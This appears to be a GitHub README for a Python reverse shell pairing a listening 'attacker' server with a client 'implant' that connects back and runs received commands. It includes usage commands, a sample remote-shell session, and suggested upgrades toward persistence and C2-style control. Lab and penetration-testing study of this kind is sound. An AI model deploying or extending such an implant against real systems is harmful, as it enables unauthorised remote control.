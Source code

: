 
# 🐚 Python Reverse Shell (Server + Client)

<p align="center">
  <img src="https://img.shields.io/badge/Python-3.x-blue.svg">
  <img src="https://img.shields.io/badge/License-MIT-green.svg">
  <img src="https://img.shields.io/badge/Category-Offensive%20Security-red.svg">
</p>

<p align="center">
  <img src="rsrc/1.png" alt="Reverse Shell Demo" width="600">
</p>

This project demonstrates a **basic reverse shell** implementation in Python for controlled lab use.  
It consists of two components:

- **Server (`server.py`)** → The attacker/handler that waits for connections and sends commands.
    
- **Client (`client.py`)** → The implant that connects back to the server and executes received commands.
    

⚠️ **Disclaimer**: This project is for **educational and authorized penetration testing purposes only**. Do not deploy it on systems you do not own or have explicit permission to test.

## ## 🚀 **Features**

- TCP socket communication between server and client.
    
- JSON-based encoding/decoding for safe data transfer.
    
- Command execution on the client side (including `cd` handling).
    
- Error handling for failed connections and invalid commands.
    
- Skips empty input (server does not send blank commands).
    
- Graceful exit with the `exit` command.

## ## 🧩 **Programming Logic**

### 1. Server (`server.py`)

1. **Setup Listener**
    
    - Creates a TCP socket bound to the given IP and port.
        
    - Waits for a client connection.
        
2. **Send & Receive**
    
    - Commands from the operator are serialized with `json.dumps` and sent to the client.
        
    - Responses from the client are received, reassembled, and deserialized with `json.loads`.
        
3. **Command Loop**
    
    - Prompts operator with `Shell#:` .
        
    - If the input is empty → skip sending.
        
    - If `exit` is entered → close session.
        
    - Otherwise → send command, wait for client response, print it.
        

---

### 2. Client (`client.py`)

1. **Connect to Server**
    
    - Creates a TCP socket and connects back to the operator’s IP/port.
        
2. **Receive & Execute**
    
    - Waits for JSON-encoded commands from the server.
        
    - Handles special case:
        
        - If `exit` → close connection.
            
        - If `cd <dir>` → change working directory using `os.chdir()`.
            
    - Otherwise executes commands with `os.popen()` and captures output.
        
3. **Send Response**
    
    - Always sends a JSON response back to the server (command output, error, or directory change confirmation).

## ## 📜 **Usage**

### 1. Start the Server

```python
python3 server.py <IP> <PORT>
```

```python
python3 server.py 192.168.1.23 1234
```

### 2. Start the Client

Edit the `server('IP', PORT)` line in **client.py** with your server’s IP and port:

```python
server('192.168.1.3', 1234)`
```

Then run :

```python
python3 client.py
```

### 3. Interact

- From the server console :

```bash

Shell#: ls
client.py
requirements.txt
server.py

Shell#: pwd
/home/kali/Desktop/Reverse Shell and Backdoor

Shell#: cd ..
Changed directory to: /home/kali/Desktop

Shell#: exit
```

## 🔮 Possible Improvements

- Handle large command outputs with streaming/chunking.
    
- Add command history and better shell prompt on the server side.
    
- Implement encryption (TLS or symmetric encryption) instead of plain-text sockets.
    
- Add persistence or multi-client management (C2-style).
    
- Replace `os.popen()` with `subprocess.Popen` for more robust execution.
